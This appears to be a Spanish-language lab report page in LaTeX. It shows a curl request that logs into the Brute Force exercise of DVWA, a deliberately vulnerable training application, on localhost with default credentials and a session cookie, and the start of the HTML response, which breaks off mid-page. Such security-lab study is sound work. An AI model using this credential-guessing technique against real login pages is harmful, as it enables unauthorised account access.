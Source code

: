 \documentclass[letterpaper,12pt]{article}
\begin{document}
\noindent\textbf{Ejemplo de solicitud y respuesta EXITOSA con cURL.} A continuación se muestra la ejecución de cURL utilizando el par de credenciales válido \texttt{admin:password} y la cookie de sesión previamente obtenida (\texttt{PHPSESSID} y el nivel de seguridad en \texttt{low}). Se incluye la respuesta HTML completa para evidenciar: (1) el mensaje de bienvenida, (2) la aparición del nombre de usuario \texttt{admin} y (3) la carga de la imagen de perfil \texttt{/hackable/users/admin.jpg}, indicadores claros de autenticación correcta.
\begin{verbatim}
$ curl "http://localhost:8889/vulnerabilities/brute/?username=admin&password=password&Login=Login" \
-b "PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low"

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

	<head>
		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

		<title>Vulnerability: Brute Force :: Damn Vulnerable Web Application (DVWA) v1.10 *Development*</title>

		<link rel="stylesheet" type="text/css" href="../../dvwa/css/main.css" />

		<link rel="icon" type="\image/ico" href="../../favicon.ico" />

		<script type="text/javascript" src="../../dvwa/js/dvwaPage.js"></script>

	</head>

	<body class="home">
		<div id="container">

			<div id="header">

				<img src="../../dvwa/images/logo.png" alt="Damn Vulnerable Web Application" />

			</div>

			<div id="main_menu">


\end{verbatim}
\end{document}
